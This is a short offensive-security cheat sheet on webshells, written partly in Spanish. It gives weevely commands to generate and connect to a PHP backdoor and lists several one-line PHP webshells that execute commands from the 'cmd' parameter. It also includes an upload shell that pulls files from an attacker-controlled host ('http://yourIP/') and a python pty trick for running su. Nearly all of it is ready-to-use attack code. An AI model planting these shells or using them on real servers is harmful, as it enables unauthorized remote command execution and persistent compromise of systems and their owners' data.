 ```yaml
---
title: webshells
category: exploiting
order: 1
---
```



#  1 full webshells
---
## Weevely
genera webshells
```
weevely generate password /tmp/payload.php
```
despues lo llamamos con :
```
weevely http://192.168.1.2/location_of_payload password
```
## kali

```
/usr/share/webshells/
```



# 2 lite webshells
---

## PHP web shells
  ```
<?php system($_GET["cmd"]); ?>
  ```

  ```
<?php echo shell_exec($_GET['cmd']); ?>
  ```
  ```
<? passthru($_GET["cmd"]); ?>
  ```

## php with upload
  ```
<?php
 if (isset($_REQUEST['fupload'])) {
  file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
 };
 if (isset($_REQUEST['cmd'])) {
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
 }
?>
  ```
then the above can be accessed by
  ```
curl  http://IP/shell.php?fupload=filename_on_your_webserver
  ```

  **if running whoami we get the error:  'standard in must be a tty' we can try:**
```
(sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
```
